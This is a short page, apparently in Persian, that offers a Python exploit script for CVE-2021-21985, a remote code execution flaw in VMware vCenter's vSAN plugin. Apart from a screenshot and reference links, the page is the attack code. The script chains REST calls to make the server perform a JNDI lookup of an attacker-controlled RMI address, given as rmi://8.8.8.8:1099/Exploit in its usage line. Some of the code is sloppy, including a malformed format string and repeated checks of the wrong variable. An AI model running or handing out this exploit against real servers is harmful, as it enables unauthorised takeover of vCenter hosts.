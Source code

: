 <languages   />

عکس صفحه
--------

![](Twitter_E3CB24AUUAEl1_8.jpg "Twitter_E3CB24AUUAEl1_8.jpg")

EXP
---

    import requests
    import sys
    import json
    def send_request(host,uri,json):
        try:
            req = requests.post(url=host+baseuri+uri,json=json,headers=headers,verify=False)
            return req.text
        except:
            return False
    def check_false(request):
        if request ==False or 'result' not in request:
            print("[*] No Vuln!")
            return True
    if __name__ == '__main__':
        if len(sys.argv) < 2:
            print('''python3 cve-2021-21985.py https://host rmi://8.8.8.8:1099/Exploit''')
            sys.exit()
        host = sys.argv[1]
        payload = sys.argv[2]
        baseuri = "ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService"
        uris = ["/setTargetObject", "/setStaticMethod", "/setTargetMethod", "/setArguments", "/prepare", "/invoke"]
        headers = {'Content-Type': 'application/json', "User-Agent": "pentest"}
        stage_setTargetObject = json.loads('{"methodInput":[null]}')
        stage_setStaticMethod = json.loads('{"methodInput":["javax.naming.InitialContext.doLookup"]}')
        stage_setTargetMethod = json.loads('{"methodInput":["doLookup"]}')
        stage_setArguments = json.loads('{"methodInput":[["%s"|"%s"]]}'%payload)
        stage_prepare = json.loads('{"methodInput":[]}')
        print("[*] start init TargetObject")
        # init TargetObject
        init_request  = send_request(host,uris[0],json=stage_setTargetObject)
        if check_false(init_request):
            print("[*] init failed!")
            exit()
        # Step2 setStaticMethod
        StaticMethod = send_request(host,uris[1],json=stage_setStaticMethod)
        if check_false(init_request):
            print("[*] StaticMethod init failed!")
            exit()
        # Step3 setTargetMethod
        StaticMethod = send_request(host,uris[2],json=stage_setTargetMethod)
        if check_false(init_request):
            print("[*] setTarget Method failed!")
            exit()
        # Step4 setArguments
        # print(stage_setArguments)
        setArguments = send_request(host,uris[3],json=stage_setArguments)
        if check_false(init_request):
            print("[*] setArguments failstage_setArgumentsed!")
            exit()
        # Step5 prepare
        setArguments = send_request(host,uris[4],json=stage_prepare)
        if check_false(init_request):
            print("[*] stage_prepare failed!")
            exit()
        # Step6 invoke
        setArguments = send_request(host,uris[5],json=stage_prepare)
        if check_false(init_request):
            print("[*] invoke failed!")
            exit()

مرجع
----

<https://github.com/xnianq/cve-2021-21985_exp/>

<https://twitter.com/_0xf4n9x_?s=21>